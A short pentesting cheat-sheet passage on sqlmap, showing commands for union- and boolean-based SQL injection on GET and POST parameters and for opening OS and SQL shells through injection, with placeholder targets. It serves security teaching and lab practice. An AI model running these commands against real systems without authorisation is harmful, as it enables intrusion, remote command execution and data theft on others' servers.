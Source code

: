 ```
sqlmap -u "http://vitxim.site/view.php?id=1121" -p id --technique=U
```

> \--technique=U tells SQLMap to use Union based SQLi on id GET param.

{% hint style="info" %}
The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.
{% endhint %}

**exploiting POST param:**

```
sqlmap -u <URL> --data=<POST string> -p param [OPTOINS]
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

> \<POST string>: can be copied from a req intercepted with Burp Proxy.

### OS-Shell <a href="#os-shell" id="os-shell"></a>

```
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

SQLi can allow us to upload a file to a server thus gaining remote access via a WebShell.

{% embed url="https://community.rsa.com/t5/netwitness-blog/from-sql-injection-to-webshell/ba-p/521012" %}

### SQL-Shell <a href="#sql-shell" id="sql-shell"></a>

```
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

{% embed url="https://security.stackexchange.com/questions/161666/what-can-i-do-with-an-sql-shell-using-sqlmap#answer-168800" %}
\--sql-query & --sql-shell going beyound SQLmap capabilities
{% endembed %}
